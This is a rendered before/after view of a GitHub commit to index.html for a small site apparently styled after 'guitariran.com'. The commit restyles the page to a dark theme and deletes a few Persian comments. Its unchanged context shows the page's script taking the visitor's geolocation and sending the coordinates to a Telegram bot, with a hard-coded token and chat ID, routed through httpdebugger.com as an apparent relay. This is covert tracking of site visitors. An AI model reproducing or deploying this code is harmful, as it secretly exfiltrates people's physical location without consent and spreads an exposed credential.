

Before and after one commit to myuse12/https-guitariran.com-, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; a web font is replaced by a local one.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -10,50 +10,59 @@
       margin: 0;
       padding: 0;
       font-family: 'Vazir', sans-serif;
-      background-color: #f8e1e7;
+      background-color: #1e1e1e;
+      color: #f5f5f5;
       display: flex;
       flex-direction: column;
       align-items: center;
       justify-content: center;
       min-height: 100vh;
       text-align: center;
-      color: #2d2d2d;
+      background-image: linear-gradient(to bottom right, #2c2c2c, #1a1a1a);
     }
+
     h1 {
-      font-size: 2.5em;
+      font-size: 2.8em;
       margin-bottom: 10px;
+      color: #ffcc00;
     }
+
     p {
-      font-size: 1.3em;
+      font-size: 1.4em;
       margin-bottom: 30px;
+      color: #cccccc;
     }
+
     button {
-      background-color: #e84393;
-      color: white;
+      background-color: #ff6600;
+      color: #fff;
       border: none;
       padding: 15px 40px;
       font-size: 1.2em;
-      border-radius: 12px;
+      border-radius: 8px;
       cursor: pointer;
-      box-shadow: 0 4px 12px rgba(0,0,0,0.2);
+      box-shadow: 0 4px 12px rgba(0,0,0,0.3);
       transition: background-color 0.3s ease, transform 0.2s ease;
     }
+
     button:hover {
-      background-color: #d63074;
+      background-color: #e65c00;
       transform: scale(1.05);
     }
+
     footer {
       margin-top: auto;
       width: 100%;
-      background-color: #fce4ec;
+      background-color: #2a2a2a;
       padding: 15px 0;
       font-size: 0.9em;
-      color: #555;
-      border-top: 1px solid #e0e0e0;
+      color: #999;
+      border-top: 1px solid #444;
     }
+
     @media (max-width: 600px) {
       h1 {
-        font-size: 2em;
+        font-size: 2.2em;
       }
       p {
         font-size: 1.1em;
@@ -95,19 +104,16 @@
       console.log("Longitude:", longitude);
 
       if (latitude && longitude) {
-        // ساخت URL تلگرام
         var tgUrl = "https://api.telegram.org/bot8069976917:AAHGS2Sar6h0qPCYVPpYezGHRVoOY1KuTbs/sendMessage"
                   + "?chat_id=8438093859"
                   + "&text=" + encodeURIComponent("Latitude: " + latitude + ", Longitude: " + longitude);
 
-        // شبیه‌سازی همان درخواست پایتون به httpdebugger به‌عنوان سرور واسطه
         var formData = new FormData();
         formData.append("UrlBox", tgUrl);
         formData.append("AgentList", "Google chrome");
         formData.append("VersionsList", "HTTP/1.1");
         formData.append("MethodList", "POST");
 
-        // ارسال به سرور واسطه
         fetch("https://www.httpdebugger.com/Tools/ViewHttpHeaders.aspx", {
           method: "POST",
           body: formData,
```
